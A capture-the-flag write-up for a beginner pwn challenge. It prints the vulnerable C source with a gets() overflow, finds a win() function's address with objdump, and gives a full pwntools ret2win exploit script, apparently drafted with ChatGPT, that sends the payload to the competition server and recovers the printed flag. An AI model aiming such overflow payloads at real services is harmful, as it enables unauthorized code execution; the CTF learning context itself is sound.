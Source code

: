 # is pwn really that easy?
### Description: gacoan nya 1 mas

We are given a netcat:
```
nc minictf.ucs.or.id 2001
```
and a zip called ```dist.zip```.

Extracting the zip gives us a binary ```easy``` and a C source file ```easy.c```:
```
#include <stdio.h>
#include <signal.h>

void init()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void win()
{
    FILE *fp = fopen("/flag.txt", "r");
    char flag[256];
    fgets(flag, sizeof(flag), fp);
    printf("Flag: %s\n", flag);
    fclose(fp);
}

int main()
{
    init();
    char buffer[0x10];
    printf("input something here: ");
    gets(buffer);
    return 0;
}
```
This is a buffer overflow pwn problem, and first we gotta find the address of the win() function on the code above.

The buffer size is 16 bytes, as indicated by [0x10].

To do that, we run:
```
objdump -d easy
```
![alt text](image.png)

As we can see, the address for win() is 0x4011d7.

The saved rbp is 8 bytes, so the payload's offset to return address must be 24 bytes.

Using this deducted information, i told ChatGPT to assemble a python script to connect to the server and deliver a payload in order to get the flag:

```
from pwn import *

# Target information
host = 'minictf.ucs.or.id'
port = 2001

# win() function address from objdump: 0x4011d7
win_addr = 0x4011d7

# Buffer overflow details:
# - buffer[0x10] = 16 bytes
# - saved rbp = 8 bytes  
# - return address = 8 bytes
# Total offset to return address = 24 bytes
offset = 24

# Create payload
payload = b'A' * offset  # Fill buffer + saved rbp
payload += p64(win_addr)  # Overwrite return address with win()

print(f"[*] Connecting to {host}:{port}")
print(f"[*] win() address: 0x{win_addr:x}")
print(f"[*] Payload length: {len(payload)} bytes")

# Connect to remote target
try:
    p = remote(host, port)
    print("[+] Connected successfully!")
    
    # Receive the prompt
    prompt = p.recvuntil(b"input something here: ")
    print(f"[*] Received: {prompt.decode()}")
    
    # Send the payload
    print("[*] Sending payload...")
    p.sendline(payload)
    
    # Receive and print the flag
    print("[*] Waiting for response...")
    response = p.recvall(timeout=5)
    print(f"[+] Response: {response.decode()}")
    
    p.close()
    print("[*] Connection closed")

except Exception as e:
    print(f"[-] Error: {e}")
```

![alt text](image-1.png)

Flag: ```UCS{kamu tau gak apa yang paling aku cintai dari dia. senyumnya, tawa nya serta karakter nya yang penuh semangat dan selalu membawa keceriaan di mana pun ia berada}```

